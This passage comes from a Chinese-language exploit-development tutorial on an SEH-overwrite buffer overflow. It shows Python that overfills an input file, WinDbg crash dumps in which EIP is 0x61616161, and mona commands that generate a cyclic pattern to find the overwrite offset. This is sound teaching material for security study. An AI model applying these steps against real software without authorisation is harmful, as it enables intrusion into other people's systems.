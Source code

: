     
    #!python
    with open('c:\\name.dat', 'wb') as f:
        f.write('a'*2000)
    

同样没有达到我们的目的。最后，使用10000个”a”字符，我们得到：

    
    
    (17d4.1244): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SysWOW64\MSVCR120.dll -
    eax=00816808 ebx=000000c8 ecx=00000030 edx=000000c8 esi=008167d8 edi=003c0000
    eip=6d51f20c esp=003bfb68 ebp=003bfb88 iopl=0         nv up ei ng nz na pe cy
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
    MSVCR120!wcslen+0x19:
    6d51f20c f3a4            rep movs byte ptr es:[edi],byte ptr [esi]
    

在按下F5（go）之后，我们得到：

    
    
    (17d4.1244): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=00000000 ebx=00000000 ecx=61616161 edx=77c2b4ad esi=00000000 edi=00000000
    eip=61616161 esp=003bf5cc ebp=003bf5ec iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
    61616161 ??              ???
    

这是我们想要的：`EIP=0x61616161`。我们知道我们的”a”字符已经覆写了SEH节点的handler地址，但确定是这4个”a”字符吗？换句话说，我们应该把重定向执行流的地址放入到文件中的偏移是多少呢？ 使用特定的模板而不是使用单一的”a”字符不失为一种简单的方法。这个模板已设计好了，因此给出了模板的4个连续字节，我们可以立即告诉该模板的偏移这四个字节被定位了。利用mona(相关文章链接：<http://drops.wooyun.org/tips/6814>)使用如下命令可以帮助我们：

    
    
    0:000> !py mona pattern_create 10000
    Hold on...
    [+] Command used:
    !py mona.py pattern_create 10000
    Creating cyclic pattern of 10000 bytes
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)
    [+] Preparing output file 'pattern.txt'
        - (Re)setting logfile pattern.txt
    Note: don't copy this pattern from the log window, it might be truncated !
    It's better to open pattern.txt and copy the pattern from the file    
    
    [+] This mona.py action took 0:00:00
    

使用一段Python代码，我们可以将模板写到`c:/name.dat`。

    
    
    #!python
    with open('c:\\name.dat', 'wb') as f:
        pattern = 'Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8...(snipped)'
        f.write(pattern)  
    
